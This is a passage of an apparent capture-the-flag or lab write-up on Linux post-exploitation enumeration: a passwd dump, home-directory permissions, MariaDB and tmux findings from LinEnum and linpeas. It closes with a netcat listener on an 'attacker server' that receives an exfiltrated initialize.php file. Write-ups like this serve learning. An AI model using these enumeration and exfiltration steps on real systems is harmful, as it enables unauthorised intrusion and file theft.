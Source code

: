 ```
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
postfix:x:110:114::/var/spool/postfix:/usr/sbin/nologin
mike:x:1001:1001:mike:/home/mike:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
```

looks like the root user owns the /home/ubuntu directory

```
[-] Are permissions on /home directories lax:
total 16K
drwxr-xr-x  4 root root 4.0K May 20  2021 .
drwxr-xr-x 23 root root 4.0K Feb 12  2022 ..
drwxr-xr-x  6 mike mike 4.0K Aug 25  2021 mike
drwx------  4 root root 4.0K May 20  2021 ubuntu
```

just some things from LinEnum and linpeas...

```
[-] MYSQL version:
mysql  Ver 15.1 Distrib 10.1.48-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2

```

/etc/mysql/mariadb.cnf

```
╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions
tmux 2.6


/tmp/tmux-33

```

sending the initialize.php file back to our attacker machine with netcat

On attacker server:
```bash
nc -l -p 1234 -q 1 > gallery-initialize.php < /dev/null
```
